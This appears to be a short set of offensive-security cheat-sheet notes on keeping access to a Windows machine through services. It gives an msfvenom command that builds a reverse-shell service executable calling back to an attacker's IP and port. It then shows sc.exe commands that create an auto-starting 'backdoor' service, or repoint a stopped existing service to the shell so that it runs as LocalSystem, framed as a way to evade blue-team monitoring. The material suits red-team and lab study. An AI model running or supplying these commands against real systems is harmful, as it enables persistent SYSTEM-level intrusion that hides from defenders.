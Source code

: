 [sc](reg#sc)
### Creating New Services
```powershell
# Create a reverse shell using msfvenom, with exe-service, as service executables are different from normal executables
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe-service -o rev-svc.exe

# Crate a service
sc.exe create backdoor binpath= "C:\path\to\reverse\shell.exe" start= auto
sc.exe start backdoor
```
### Modifying Existing Services
- Usefull when blue team is monitoring new services
- Look for `Stopped` services.
```powershell
sc.exe query state=all
```
- check configuration
```powershell
sc.exe query Stopped_Service
sc.exe config Stopped_Service binpath= "C:\Reverse\Shell.exe" start= auto obj= "LocalSystem"
# Setting obj to LocalSystem runs the service with SYSTEM Privilege
```